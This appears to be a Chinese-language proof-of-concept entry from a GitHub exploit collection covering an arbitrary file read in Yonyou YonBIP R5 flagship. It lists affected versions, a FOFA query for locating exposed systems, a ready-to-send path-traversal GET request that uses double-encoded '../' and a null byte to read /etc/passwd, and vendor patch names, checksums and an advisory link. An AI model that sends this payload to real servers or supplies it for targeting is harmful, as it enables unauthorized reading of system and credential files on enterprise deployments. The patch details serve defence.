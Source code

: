 用友YonBIP R5旗舰版 yonbiplogin 任意文件读取漏洞

漏洞描述：用友YonBIP R5旗舰版 是用友网络科技股份有限公司推出的一款企业级管理软件，属于其企业级信息化解决方案的一部分，广泛应用于大中型企业的资源管理、数据分析和业务流程自动化等领域。

影响范围：YonBIP V3.0(R5_2312)、YonBIP V3.0(R5_2312_SP240517)

FOFA：title="数字化工作台" || title="YonBIP"

Payload：GET /iuap-apcom-workbench/ucf-wh/yonbiplogin/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%2500.jpg.js HTTP/1.1

![用友YonBIP R5旗舰版 yonbiplogin 任意文件读取漏洞](https://github.com/capable-Hub/POC/blob/main/b9iwwurioaaic8iy.png)

修复建议：

基于专属化盘版本号进行排查，补丁请至“云产品补丁中心”中下载。

YonBIP V3.0(R5_2312_SP240517);

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_SP240517_36_QP20240927-2

校验码：dbe6149dab9dce75e81717d7a343861cfd81306b

依赖补丁：TNS_iuap.V6.R5_2312_36_SP20240605-2


YonBIP V3.0(R5_2312)：

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_36_QP20241021-2

校验码：a35e4160d7b7aab7e68fc9cd0cc36e5c05011058


YonBIP V3.0(R5_2312)：R5 standalone版本补丁

补丁名称：TNS_iuap-fe-webhome_iuap.V6.R5_2312_37_QP20241024-1

校验码：8ee58fbaac546a8278924579ba0e38e339a418c0


备注：

1025（包含）以上版本合集补丁包含该安全补丁

参考链接：YonBIP R5旗舰版任意文件读取安全风险通告：https://security.yonyou.com/#/noticeInfo?id=627
